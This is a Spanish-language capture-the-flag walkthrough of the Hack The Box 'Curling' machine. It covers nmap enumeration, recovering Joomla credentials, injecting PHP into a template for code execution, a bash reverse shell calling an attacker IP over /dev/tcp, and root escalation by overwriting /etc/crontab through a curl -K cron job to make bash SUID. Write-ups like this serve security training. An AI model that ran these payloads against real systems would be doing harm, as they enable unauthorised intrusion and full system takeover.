 # [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]
```
ping -c 1 10.10.10.150
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.150 -oG allports
extract Ports allports
nmap -sCV -p22,80 10.10.10.150 -oN target
whatweb http://10.10.10.150
nmap --script http-enum -p22,80 10.10.10.150 -oN webScan
```
![[Curling1.png]]![[Curling2.png]]
*Resultado:*
Es una maquina linux por el ttl
Puertos 22 ssh y 80 apache abiertos

--------------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

![[Curling3.png]]
El whatweb no nos da ninguna información relevante, y tenemos para probar muchos directorios.
Este nos da un panel de acceso
	http://10.10.10.150/administrator/
	
Viendo el codigo fuente de la pagina principal http://10.10.10.150 al final de todo nos pone secret.txt
![[Curling4.png]]
Entramos a http://10.10.10.150/secret.txt
![[Curling5.png]]
Es una linea en base64
![[Curling6.png]]
Esta va a ser la contraseña, y el usuario lo saque de esta publicacion
![[Curling7.png]]

Usuario: Floris
Contraseña: Curling2018!

-------------
# RCE(Remote Comand Ejecution) En joomla
### Enumeracion
[Articulo que explica como sacar una revershell con joomla](https://www.hackingarticles.in/joomla-reverse-shell/)
Vamos a ir a la parte de templates, 
![[Curling8.png]]

Vamos a seleccionar la parte de templates que esta a la izquierda, y despues vamos a elegir cualquiera en mi caso uso el de beez3
![[Curling9.png]]
Ahora vamos a modificar en mi caso el archivo error.php y le vamos a inyectar este comando. Y guardamos los cambios
```
<?php system("whoami");?>
```
![[Curling10.png]]
Ahora cuando entremos al link
http://10.10.10.150/templates/beez3/error.php nos tendria que aparecer la respuesta del comando whoami
![[Curling11.png]]

### Explotacion

Como nos responde que usuarios somos, ya sabemos que hay un RCE, y vamos a intentar mandarnos una [[Reverse shell]]

 ```php
 <?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'");?>
```
Mientras nos ponemos en escucha con [[nc -nlvp 443]]
![[Curling12.png]]
Y listo ya ganamos acceso a la maquina
![[Curling13.png]]

-----------
# [[Apuntes Directo/Herramientas-Comandos/Tratamiento de la TTY|Tratamiento de la TTY]]

----------
# Escalada de privilegios

### Escalamos al usuario de floris

##### Enumeracion y explotacion junto(No se diferenciar): Mediante comprimidos ocultos
Encontramos esto en el home de floris y vamos a usar la herramienta [[xxd]] ya que esta en hexadecimal, para descifrar el contenido
![[Curling15.png]]
```shell
cat password_backup | xxd -r  > /tmp/pass
```
No da nada legible, asi que al aplicar un `file pass` veo que el tipo de archivo es bzip2, asi que por lo tanto es un comprimido, asi que empiezo a descomprimir                 |                 [[file]]
![[Pasted image 20250531234516.png]]
[[Comprimidores de archivos]]
```shell
bzip2 -d pass
file pass.out   //Veo que es un gzip
mv pass.out pass.gz
gzip -d pass.gz
file pass // Veo que es un bzip2 de nuevo
bzip2 -d pass
file pass.out // Es un archivo tar ahora
tar xf pass.out
cat password.txt
```

![[Curling16.png]]
*Contraseña:* 5d<wdCbdZu)|hChXll

Ya tenemos una contraseña que aparenta ser de floris, asi que vamos a intentar conectarnos por [[ssh]]

![[Curling17.png]]
Ya podemos sacar la primera flag, y solamente nos faltaria hacernos root para completar el laboratorio

### Escalada a root: Mediante tarea cron

##### Enumeracion
Ejecutamos el [[PSPY]]
![[Curling18.png]]
Vemos en el PID 2872 el curl que manda con el parametro `curl -K`, que sirve para especificar la configuracion mediante un archivo.    [[curl]]

##### Explotacion
Vamos a crear un archivo exploit en un nuestra maquina
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

* * * * * root chmod u+s /bin/bash
```
Vamos a abrir un server con [[python3 -m http.server]]

Contenido del archivo input
```
url = "http://10.10.16.4/exploit"              // En donde esta el 10.10.16.4 va nuestra ip de atacante y despues del / va el nombre del archivo
output = "/etc/crontab"
```

Ahora cuando se ejecute la tarea cron, va a hacer que la bash tenga permisos SUID
![[Curling19.png]]
Una vez que vemos la s, ya sabemos que podemos ejecutar `bash -p` para ganar permisos en la bash
![[Curling20.png]]
Ya estamos logeados como root, asi que podemos visualizar la flag
# Notas

`uname -m`                              |    [[uname]]
Es para ver si el OS es de 32 o 64, si devuelve x86_64 es de 64

`curl -k`                                 | [[curl]]
	`-k` Ignora los errores de certificados SSL/TLS
	`-K` Sirve para leer opciones desde un archivo de configuracion en lugar de pasarlos por una linea de comando en la shell

##### Diferencias entre sh, bash y zsh 
*Las 3 utilizan los mismos comandos de base, pero puede haber funcionalidades que tenga la zsh, y que no esten en la sh*
`sh` Es la mas antigua, tiene menos funciones y es la shell original
`bash` Mas completa que la sh y actualizada
`zsh` Es como la bash pero con esteroides y mas personalizable


###### Por que se define la BASH y SHELL en la tarea cron
*SHELL:* Si no se especifica va a usar por defecto una sh, la cual puede ser que no interprete todos los comandos
*PATH:* Si no se pone esto, cron puede no encontrar cosas como python, nc, curl, bash, etc

# Creditos
[Writeup de lanzt](https://lanzt.github.io/htb/curling)
Writeup oficial de HTB

